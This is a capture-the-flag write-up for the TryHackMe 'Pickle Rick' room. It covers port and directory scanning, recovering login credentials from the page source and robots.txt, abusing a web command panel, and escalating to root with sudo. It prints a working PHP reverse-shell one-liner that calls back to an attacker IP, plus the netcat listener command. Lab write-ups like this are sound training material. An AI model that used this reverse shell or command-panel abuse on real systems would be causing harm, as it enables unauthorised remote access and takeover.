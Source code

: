 # Pickle Rick
#### A Rick and Morty CTF. Help turn Rick back into a human!
TryHackMe: [Pickle Rick CTF Link](https://tryhackme.com/room/picklerick)
Tools: Nmap, Nikto, Dirbuster, Bash/Python Reverse Shell, and Popcorn

---
## Preparation 
![IMG1](Images/img1.png "Figure-1")  
![IMG2](Images/img2.png "Figure-2") 

If you are using your own machine continue below otherwise launch your machine and skip to Scanning
First step is to open your favorite text editor (sublime,notepad++,onenote, etc). Copy and paste the question. 
Find your ip address by going to `ip address| grep inet` take a note of it or save it into a variable `export $IP=[your ip here]`.


## Scanning and Enumeration
![IMG3](Images/img3.png "Figure-3") 
To begin you are giving an IP address to go to. Launching it you will see a website, we can see that the message on the web is asking to look for a password. So with this knowledge we need to look for login credentials and a login portal. 

*Note: Replace $Attack_IP with the target ip* 
Lets go ahead and run an nmap scan, I run a simple nmap scan but you can run with any parameter you like.
`nmap -A -sT $Attack_IP` 
![IMG4](Images/img4.png "Figure-4") 

After few seconds we can see two ports that are open 80(http) and 22(ssh). Now we will scan for more and see what else we ccan find. Lets run nikto and dirbuster at the same time on two different terminal.
`nikto -h $Attack_IP` `dirb http://$Attack_IP`
![IMG5](Images/img5.png "Figure-5") 

Quite interesting, we find a robot.txt during from our dirbuster scanning, and we were able to find out how to get into the login portal. 

Now that we done with scanning and enumeration we can now head back to the webpage.

## Discovery

Now you are at the webpage, lets take a look and see what else we can find. Go ahead and view the page source. 

What do we have here, looks like we found the first part of the credentail which is the username. Where could the password be? Lets go ahead and go to the login portal.
Which earlier we found it was at login.php -> http://$Attack_IP/login.php.

Okay so we have the username but still don't have the password. Earlier we found a robot.txt, looking up we know the this text file control which pages or directories are indexed by search engines.
Opening it, `http://$Attack_IP/robots.txt`, we found something that is related to the Ricky and Morty show (for those who watch the series). This could possibly be the password since there is a relation to the entire theme (username and webpage itself.

Entering the credentials we have now gain access to the portal. 

## Finding the secret
![IMG6](Images/img6.png "Figure-6") 

Now that we are in, lets browse around. From here we can only see that the command panel is the only revelant thing we can do. With a simple `ls` command we can see a list of files in here. 
HEY LOOK! There is one of the secret ingredient. Trying to use commands to open the text is a no go. So how do we do it. There are three ways:
![IMG7](Images/img27.png "Figure-7") 

```c
First Option: Using grep command. We can recursively grab everything. Command: grep -R .
Second Option: We can type it in our url http://$Attack_IP/Sup3rS3cretPickl3Ingred.txt
Third Option: Using a reverse shell we will try to gain access and navigate through their system.
```
You can pick whichever option. If you chosen the first option, you can view the page source of what you find. You will find not really an eaaster egg but a base64 code. Which you will have to base64 it over and over only until you get a hidden message. <br>
Second option will tell you the answer and thats it.<br>
However the third option would be more beneficial as it will help us gain access to the 2nd and 3rd ingredients. 

## Reverse Shell
*Note: You do not have to do a reverse shell in order to get the 2nd and 3rd ingredients, which I have found out a bit of playing around using the less command. However it makes it a bit harder for me, so reverse shell makes it easier to navigate.*

You can do a reverse shell of your choice, if you do not know where or how to create a reverse shell here is the link to one: [Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
I found that the php reverse shell script worked fine after modifying the IP and/or port number.

`php -r '$sock=fsockopen("10.10.151.177",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'`
*Note: You may have to use python3 instead of python if it doesn't work*

![IMG8](Images/img8.png "Figure-8") 
Now copy and paste into the Command box, but do not execute it just yet. Next open a terminal and launch a netcat listener `nc -lvnp 4242`, my port number is 4242 yours could be different if you changed it.

Now we are in, at this point if you were to do `pwd` you find that we are in \var\www\html. We will want to go to the root directory. So go ahead and cd to \. 
![IMG9](Images/img9.png "Figure-9") 

Then you want to `ls -la` to see all the folder/files/directory. Go ahead and browser around. You will find that the /home directory has a user in it call 'Rick', going into this directory, if we type `ls`, we see the second ingredient. Go ahead and open it and now its time to find the last ingredient. 

## Escalation Priviledge
At this point we have browse everywhere to find the third ingredient, however there is one place we cannot get into which is root. So we need to be the root user. Typing in `sudo -l` we try to see if we are root. 
Oh no it does not work. What about `sudo su`? Yes it works, using `whoami` I can see that I am root.
![IMG10](Images/img10.png "Figure-10") 
Now we will go into the root directory and we can see the third text file. Looking into it we got our last ingredient.

We have completed the Ricky and Morty Room!
